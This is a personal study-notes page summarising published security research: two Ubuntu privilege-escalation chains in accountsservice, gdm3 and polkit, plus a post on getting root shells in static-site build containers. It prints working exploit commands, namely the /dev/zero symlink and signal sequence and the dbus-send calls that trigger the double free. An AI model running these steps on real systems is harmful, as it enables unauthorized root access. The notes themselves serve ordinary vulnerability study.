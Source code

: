 ```yaml
---
sidebar_position: 2
---
```


# Summary 

One thing I've noticed about reading CVE reports and writeups is that I get the thrill of learning once I've read through and (hopefully) understood the vulnerability, but in a few months or even in a few weeks I'll forget 80% of the content. Sometimes I even re-read reports because I forgot that I already read them. So as a simple memo and also an exercise to keep me reading new research, I've decided to do a little summary of the stuff I read so I can keep track and have some reference later on. Like a book review, sort of.

Here's to define the format:
Title: \[category\] Title of blog/research
* CVE
* author(s) or org
* link to resource(s)
* category(s), e.g privesc, webapp, android...
* keywords

Description of vuln, technical details worth noting, lessons learned, questions or extended research, link to other notes, etc


## \[Privesc\] How to get root on Ubuntu 20.04 by pretending nobody’s /home

* CVE: CVE-2020-16126, CVE-2020-16127, CVE-2020-16125
* Author: Kevin Backhouse of the GitHub Security Lab
* [How to get root on Ubuntu 20.04 by pretending nobody’s /home](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE/)
* Categories: Privesc, Linux
* Keywords: pam_environment, Ubuntu GNOME Display Manager (gdm3), accountsservice, D-Bus

### Description

The privesc technique chains 2 bugs: the first a DoS bug to crash the accountsservice daemon, and the second a design flaw that causes the dependent gdm3 to create a n admin account when the accountsservice daemon is unresponsive.

#### The accountsservice daemon bug

The accountsservice daemon manages user accounts and also allows you to change your settings, such as your icon or preferred language. Messages are sent via D-Bus between the graphic dialog box and the accountsservice daemon. When a config file, `~/.pam_environment` is found for a user, Ubuntu's accountsservice daemon (which is different from the upstream maintained version) reads it. We can **symlink this file to `/dev/zero`** to trigger the DoS since `/dev/zero` is logically an infinitely long file with `\x00`.

We can then crash the unresponsive accountsservice daemon by sending a SIGSEGV signal. This is possible because the accountsservice daemon drops privs before reading `.pam_environment` which is a protection against low-priv users trying to read high-priv files like `/etc/shadow`.

#### The gdm3 privesc bug

There is an operation called `gnome-initial-setup` which is triggered when gdm3 detects that there are zero users on the system, or in other words, this is a fresh installation of Ubuntu. The `gnome-initial-setup` process creates an admin account so you can then perform other setup. The problem is: **gdm3 queries the accountsservice daemon for the number of user accounts**, and when the accountsservice daemon is unresponsive, gdm3 by default believes that there are 0 users, and triggers `gnome-initial-setup`.

Quoting the blog:

> You tricked gdm into launching gnome-initial-setup, I reckon, which maybe happens if a gdm session can’t verify that an account already exists.

### Exploit

**Limitations: You need graphical session on machine!**

```bash
# symlink .pam_environment to /dev/zero to trigger DoS
ln -s /dev/zero .pam_environment

# open "Region & Language" in system settings and change language, ignore the freeze

# delete symlink
rm .pam_environment

# kill process
pidof accounts-daemon
kill -SIGSTOP 597   # change to pid

# need to log out to trigger, but set timer to restart accountsservice daemon
nohup bash -c "sleep 30s; kill -SIGSEGV 597; kill -SIGCONT 597"

# logout and wait for prompt to create admin account!
```

### Takeaways and Notes
* DoS bugs might be categorized as trivial, but its importantance may sky-rocket if other applications are dependent on it. Maybe try to research how past DoS bugs might be chained with quirky behavior?
* polkit is often used to check if a client is authorized to request an action -> find more info on this?

## \[Privesc\] Getting root on Ubuntu through wishful thinking

* CVE: CVE-2021-3939
* Author: Kevin Backhouse of the GitHub Security Lab
* [Getting root on Ubuntu through wishful thinking](https://securitylab.github.com/research/ubuntu-accountsservice-CVE-2021-3939/)
* Categories: Privesc, Linux
* Keywords: double free, UAF, accountsservice, polkit

### Description

#### Double free in accountsservice

A pointer, `system_formats_locale`, is allocated as **static** and returned to caller, so there is only one instance and the caller should not free it. However, in one of the functions it's called and assigned to `g_autofree`, which means it gets freed when execution exits current scope! This is usually okay because code looks into `.pam_environment` for backup values, so we can trigger double free by deleting `.pam_environment`!

```bash
rm -f ~/.pam_environment
dbus-send --system --print-reply --dest=org.freedesktop.Accounts /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetLanguage string:hi
```

So now a dangling pointer is in `system_formats_locale` while other parts of code can write the chunk. 

### Exploit

Problems:
* chunk size only `0x20`
* bypass ASLR randomness

Author observed that the chunk is often captured by the `user_save_to_keyfile()` function. Why not use this alloc dealloc to jumble up memory and increase chances of another useful target allocating the chunk? We can keep crashing and restarting accountsservice as a low-priv user by changing email:

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1001 org.freedesktop.Accounts.User.SetEmail string:'kev@example.com'
```

Due to small chunk size, we need to find something interesting that can happen when data is overwritten, such as changing the current user's username to root. The final target is `CheckAuthData`, which is used to **store a closure that will be called after the polkit request is approved**. Since method call is async, we want to trigger double free between a low-priv request and high-priv request so that the high-priv function pointer overwrites the low-priv one while the low-priv request gets approved.

Drew a diagram to illustrate the flow:

![Exploit flow](imgs/root-ubuntu-wishful-thinking.png)

Unfortunately, the `CheckAuthData` in accountsservice is `0x40`, so the mismatch would've ruined the exploit. HOWEVER, it actually worked, because there's also a `CheckAuthData` struct in the **polkit client-side library** which does exactly the same thing, but is small enough for `0x20`! The exploit flow is mostly the same, except the double free corrupts the chunk used by polkit!

### Takeaways and Notes
* Textbook UAF taught us to write chunk with shellcode or ROP chain, leak addrs, then jump over, but sometimes it's more useful to see where the chunk might get allocated and what data you can overwrite! Privesc doesn't always need revshell
* Can do a bit of research on possible exploitable type combinations in different languages, e.g `static` and `g_autofree` variables


## \[RCE\] 静态站点托管平台仅能托管静态资源？

* CVE: N/A
* Author: zjun
* [静态站点托管平台仅能托管静态资源？](https://tttang.com/archive/1501/)
* Categories: RCE, Cloud
* Keywords: container security, static site generator

### Description

Several cloud hosting services support various static site generation frameworks, which often allow us to build and run with custom commands. Though such commands should always be executed in a low-privileged restricted container, cloud services are too commmonly misconfigured. In this post, the author explores several platforms, including 4everland, vercel, and netlify. A friend also discovered that Cloudflare has the same vulnerability.

### Exploit

4everland, an IPFS build on web3, runs on AliCloud and executes commands as **root**, but the site has protections in place to restrict available commands and container escape. The author did not successfully pop a reverse shell.

Vercel, similar to GitHub pages, runs on AWS and also executes commands as **root**, but allows much more commands. The author can pop a reverse shell by installing `nc` with yum or via python. The downside is that the job timeouts after 45 minutes, so it's harder to obtain persistent access.

Netlify, also similar to GitHub pages, runs on AWS, but executes commands as a low-priv user `buildbot`. We can't install packages without root privileges, so this case isn't of much use.

Our friend was using Cloudflare and found the same issue. Commands are run as **root** but timeouts pretty quickly, and the platforms become unusable for a while. The kernel version is out of date so there probably are kernel weaknesses that we can exploit to escalate privileges or escape the container, but we haven't confirmed this.

In all, unless we can escape the container or laterally move to other machines, this weakness isn't too valuable. If you just want to use free containers though, it's a nice feature ;D